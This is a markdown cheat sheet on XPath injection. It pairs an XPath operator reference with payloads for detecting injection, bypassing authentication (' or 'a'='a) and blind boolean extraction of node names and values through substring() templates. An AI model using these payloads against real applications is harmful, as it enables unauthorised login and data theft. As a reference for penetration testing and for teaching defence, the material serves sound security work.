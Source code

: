 # XPath injection

## XPath

### Operator list

#### Select nodes

```
/             #select root
//            #select all nodes regardless of position
*[1]          #current node
name(*[1])    #name of current node
<node>/       #select all immediate children of <node>
<node>//      #select all children of <node> including sublevels
<node>/<sub>  #select a child of <node> named <sub>
<node>//<sub> #select a child of <node> named <sub> regardless of position
```

#### Attributes

```
@                     #select an attribute
/@<name>              #select all attributes named <name>
<node>[@<attr>]       #select a node of type <node> with attribute <attr>
<node>[@<attr>='val'] #select a node of type <node> that satisfy the condition
<node>/text()         #get the plain text included between two tags of type <node>
<node>/position()     #get current node index related to its brothers
```

#### Complex select

```
<node>[<sub>]                #select all nodes of type <node> with a subnode of type <child>
<node>[<sub>/text()='<val>'] #select all <node> whose subnode is of type <sub> and contains <val> as text
<node>[position()=<n>]       #select a node in the <n>th position
```

#### Logic operators

```
[<s1> and <s2>]    #AND
[<s1> or <s2>]     #OR
[not(<s1>)]        #NOT can include more statements inside i.e. not(a or not(b))
```

## Injection attacks

### Testing for injection

Insert a `'` or a `` ` `` to try and break the statement

```
' or `         #expect error for incomplete statement
or 'a' = 'a'   #expect always true result or the statement returns all elements
and 'a' = 'b'  #expect always false result
```

### Authentication bypass

```
' or 'a'='a
' or 'a'='a' or 'a'='a    #turns an A and B statement into (A or true) or (true and B). In this stamement only the first part is checked because it is always true
```

### Retrieve file structure

In order to build the file structure of the underlying XML record it is necessary to bruteforce the nodes names. In order to do so we perform a boolean based injection to iterate on each character of the node in order to find out whether it is contained in the tag or not. Once we discover the name of a node we repeat the operatione for each child

#### Find Root identifier

Find a valid query and concatenate the following payload to verify if the letter of the node name at the index \<idx> is equal to \<char>

```
<valid query>' or substring(name(*[1]),<idx>,1) = '<char>
```

Once the statement completes successfully increase the \<idx> value by one and repeat

#### Build data

To detect the name of the subnodes modify the path as follows

```
<valid query>' or substring(/<root>/<node1>/*,<idx>,1) = '<char>
```

To access the value of the subnode in position \<pos> modify the path as follows

```
<valid query>' or substring(/<root>/<node1>[position()=<pos>],<idx>,1) = '<char>
```

